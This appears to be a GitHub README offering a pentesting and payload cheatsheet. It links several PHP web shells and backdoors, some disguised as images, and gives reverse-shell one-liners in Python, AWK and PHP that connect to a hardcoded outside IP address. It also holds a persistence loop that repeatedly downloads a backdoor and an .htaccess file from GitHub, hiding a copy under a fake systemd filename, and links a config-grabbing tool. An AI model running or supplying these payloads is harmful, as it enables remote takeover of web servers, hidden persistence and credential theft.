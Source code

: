 # Cheatsheet Pentesting & Payloads By [@CallMeRep](https://t.me//CallMeRep)

## Summary
* [BackConnect Bypass](#trick-backconnect-bypass)
* [Tools](#tools)
* [ Example List Vulnerability ]
   * [AWS TAKEOVER S3](https://github.com/t101804/repshare/blob/main/aws_vuln_with_region.txt)
* [ Default Index CMS ]
   * [Index Joomla](https://github.com/t101804/repshare/blob/main/index_joomla.php)
* [ Shell Backdoor Bypass/Non ]
    * [Alfa Shells](https://github.com/t101804/repshare/blob/main/alfa.php)
    * [Evil Twin Shells](https://github.com/t101804/repshare/blob/main/eviltwin.php)
    * [Gecko Shells](https://github.com/t101804/repshare/blob/main/gk.php)
    * [Gecko JPG Shells](https://github.com/t101804/repshare/blob/main/gkjpg.jpg)
    * [Open Source Shells](https://github.com/t101804/repshare/blob/main/ac.php)
    * [Commander RCE Shell Bypass](https://github.com/t101804/repshare/blob/main/commander.php) 
    ```
    commander.php?command=[executeurcommand] then the response you can access in /output_command.txt
    ```
    * [SSI Shell](https://github.com/t101804/repshare/blob/main/ssial.shtml) 
    * [indoXploit Shell](https://github.com/t101804/repshare/blob/main/idx.php) 
    * [marijuana shell](https://github.com/t101804/repshare/blob/main/m4rijuana.php) 
    * [r57 shells](https://github.com/t101804/repshare/blob/main/r.php)
## Trick BackConnect Bypass
## Python 
```
export RHOST="104.248.145.105";export RPORT=1234;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```
## AWK 
```
awk 'BEGIN {s = "/inet/tcp/0/104.248.145.105/1234"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```
## PHP EXEC & PHP SHELL EXEC
[EXEC] 
```
php -r '$sock=fsockopen("104.248.145.105",1234);exec("sh <&3 >&3 2>&3");'
```
[SHELL_EXEC] 
```
php -r '$sock=fsockopen("104.248.145.105",1234);shell_exec("sh <&3 >&3 2>&3");'
```

# Trick Defend Shells
### Anti Delete Command without Root Privilages : 
```
curl https://raw.githubusercontent.com/t101804/repshare/main/.htaccess -o /var/tmp/systemd-private-d2965998338a4e6a84320173dff28bb0-haveged.service-HgExaf2a; while true; do echo $(TZ=Asia/Jakarta date); if [ ! -f ac.php ] || ([ -f ac.php ] && ! grep -q '@CallMeRep' ac.php); then curl -o ac.php https://raw.githubusercontent.com/t101804/repshare/main/ac.php; fi; if [ -r .htaccess ] && [ -w .htaccess ] && ! cmp --silent .htaccess /var/tmp/systemd-private-d2965998338a4e6a84320173dff28bb0-haveged.service-HgExaf2a; then curl https://raw.githubusercontent.com/t101804/repshare/main/.htaccess -o .htaccess; fi; echo $(TZ=Asia/Jakarta date); sleep 2; done
```
#### Script for that if you want see detail script
```
wget https://raw.githubusercontent.com/t101804/repshare/main/priv8_anti_delet.sh
```
## Tools
- [reverse-shell-generator](https://www.revshells.com/)
- [mass-grab-config-joomla&wp-vhost-symlink](https://github.com/t101804/repshare/blob/main/mass_vghost_config_grab.py)
- [linux_privilage_check_that_i_use](https://github.com/sleventyeleven/linuxprivchecker)

Credit by revshells.com and @CallMeRep
